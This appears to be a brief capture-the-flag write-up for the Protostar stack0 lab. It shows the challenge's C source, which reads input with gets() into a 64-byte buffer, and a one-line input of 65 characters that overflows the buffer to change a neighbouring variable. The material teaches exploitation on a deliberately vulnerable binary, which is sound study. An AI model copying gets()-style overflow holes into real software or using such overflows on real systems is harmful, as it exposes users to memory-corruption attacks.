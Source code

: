 ```yaml
---
layout: post
title: "Protostar stack00 writeup"
tags: [protostar, pwn]
comments: false
---
```


This challenge is not really a challenge but more of thinking of how memories can be fixed even though the source 
code doens't show any access to it.

First, we are given with a source code.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
We can see that it uses the vulnerable 'get' function so we can overwrite buffer and reach to modified.

The total value is 64 so by putting in more value than 64 will reach the modified variable.
```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*65') |./stack0
you have changed the 'modified' variable
```